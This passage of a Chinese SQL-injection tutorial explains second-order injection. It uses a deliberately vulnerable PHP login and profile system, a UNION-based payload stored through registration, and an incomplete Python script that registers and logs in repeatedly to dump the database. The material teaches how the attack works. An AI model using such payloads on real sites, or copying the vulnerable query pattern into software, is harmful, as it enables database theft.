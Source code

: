 ## §3.6 正则注入

## §3.7 二次注入

设想以下用户系统：

```php
$username = addslashes($_POST['username']); # 用户名
$password = md5($_POST['password']); # 密码
$info = addslashes($_POST['info']); # 个人简介

# 添加用户
$sql = "insert into users(username,password,info) values ('{$username}','{$password}','未定义个人简介');"

# 登录用户
$sql = "select * from users where username='{$username}' and password='{$password}';"
if($res = mysql_fetch_assoc(mysql_query($sql))){
	$_SESSION['username'] = $res['username'];
}

# 查看个人简介
$sql = "select info from us ers where username='{$_SESSION['username']}';";
echo mysql_fetch_assoc(mysql_query($sql))['info'];

# 修改个人简介
$sql = "update users set info='{$info}' where username='{$_SESSION['username']}';";
```

分析以下Payload：

```php
$_POST['username'] = "1' union select database() #"
$_POST['password'] = ......;
$_POST['info'] = ......;
```

第一个SQL语句负责创建用户。由于`$username`会用到`addslashes()`进行转义，所以拼接得到的SQL语句中会包含大量的`\`。数据库执行时，又会将`\`视为转义标识符，而非`\`字符本身，所以数据库中存储的是原封不动的`1' union select database() #`。

第二个SQL语句负责登录用户。由于数据库中的`username`字段未经转义，所以`$_SEESION['username']`中存储的也是未经转义的用户名。

第三个SQL语句负责查询个人简介。注意到`$_SEESION['username']`未经转义，因此此处参数可控，可以注入，拼接的SQL语句等价于`select info from users where username = '1' union select database() #`。我们并没有注册过用户名为`1`的账户，因此前一个`SELECT`语句返回空值，而后一个`SELECT`语句的值被合并到`info`一列中，造成回显。

综上所述，我们可以不断地注册用户名，并查看其个人简介一栏，从而进行爆库：

```python
import requests

URL_PREFIX = "......"

def send(action: str, postData: dict):
    # 按照action发送到不同的URL

def register(username:str,password:str)->None:
    postData = {"username":username,"password":password}
    send('reg',postData)

def login(username:str,password:str)->str:
    postData = {"username":username,"password":password}
    return send('login',postData)

def getResult(username:str,password:str)->str:
    register(username,password)
    return login(username,password)
    
```